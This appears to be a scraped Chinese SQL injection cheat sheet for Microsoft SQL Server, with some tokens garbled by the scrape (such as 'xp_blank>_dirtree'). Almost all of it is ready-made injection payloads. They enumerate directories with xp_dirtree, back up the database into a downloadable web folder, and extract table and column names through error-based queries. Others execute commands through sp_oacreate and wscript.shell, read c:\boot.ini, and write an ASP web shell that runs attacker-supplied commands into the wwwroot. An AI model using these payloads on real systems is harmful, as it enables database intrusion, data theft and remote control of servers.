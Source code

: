 	把路径写到表中去：
	;create table dirs(paths varchar(100), id int)--
	;insert dirs exec master.dbo.xp_blank>_dirtree c:\--
	and 0<>(select top 1 paths from dirs)--
	and 0<>(select top 1 paths from dirs where paths not in(@Inetpub))--
	;create table dirs1(paths varchar(100), id int)--
	;insert dirs exec master.dbo.xp_blank>_dirtree e:\web--
	and 0<>(select top 1 paths from dirs1)--
	
	把_blank>数据库备份到网页目录：下载
	;declare @a sysname; set @a=db_blank>_name();backup database @a to disk=e:\web\down.bak;--
	
	and 1=(Select top 1 name from(Select top 12 id,name from sysobjects where xtype=char(85)) T order by id desc)
	and 1=(Select Top 1 col_blank>_name(object_blank>_id(USER_blank>_LOGIN),1) from sysobjects) 参看相关表。
	and 1=(select user_blank>_id from USER_blank>_LOGIN)
	and 0=(select user from USER_blank>_LOGIN where user>1)
	
	-=- wscript.shell example -=-
	declare @o int
	exec sp_blank>_oacreate wscript.shell, @o out
	exec sp_blank>_oamethod @o, run, NULL, notepad.exe
	; declare @o int exec sp_blank>_oacreate wscript.shell, @o out exec sp_blank>_oamethod @o, run, NULL, notepad.exe--
	
	declare @o int, @f int, @t int, @ret int
	declare @line varchar(8000)
	exec sp_blank>_oacreate scripting.filesystemobject, @o out
	exec sp_blank>_oamethod @o, opentextfile, @f out, c:\boot.ini, 1
	exec @ret = sp_blank>_oamethod @f, readline, @line out
	while( @ret = 0 )
	begin
	print @line
	exec @ret = sp_blank>_oamethod @f, readline, @line out
	end
	
	declare @o int, @f int, @t int, @ret int
	exec sp_blank>_oacreate scripting.filesystemobject, @o out
	exec sp_blank>_oamethod @o, createtextfile, @f out, c:\inetpub\wwwroot\foo.asp, 1
	exec @ret = sp_blank>_oamethod @f, writeline, NULL,
	<% set o = server.createobject("wscript.shell"): o.run( request.querystring("cmd") ) %>
	
	declare @o int, @ret int
	exec sp_blank>_oacreate speech.voicetext, @o out
	exec sp_blank>_oamethod @o, register, NULL, foo, bar
	exec sp_blank>_oasetproperty @o, speed, 150
	exec sp_blank>_oamethod @o, speak, NULL, all your sequel servers are belong to,us, 528
	waitfor delay 00:00:05
	
	; declare @o int, @ret int exec sp_blank>_oacreate speech.voicetext, @o out exec sp_blank>_oamethod @o, register, NULL, foo, bar exec sp_blank>_oasetproperty @o, speed, 150 exec sp_blank>_oamethod @o, speak, NULL, all your sequel servers are belong to us, 528 waitfor delay 00:00:05--
	
	xp_blank>_dirtree适用权限PUBLIC
	exec master.dbo.xp_blank>_dirtree c:返回的信息有两个字段subdirectory、depth。Subdirectory字段是字符型，depth字段是整形字段。
	create table dirs(paths varchar(100), id int)
	建表，这里建的表是和上面 xp_blank>_dirtree相关连，字段相等、类型相同。
	insert dirs exec master.dbo.xp_blank>_dirtree c:只要我们建表与存储进程返回的字段相定义相等就能够执行！达到写表的效果,一步步达到我们想要的信息！
##注入的经典方法
暴力猜解
逐字猜解
information_schema
	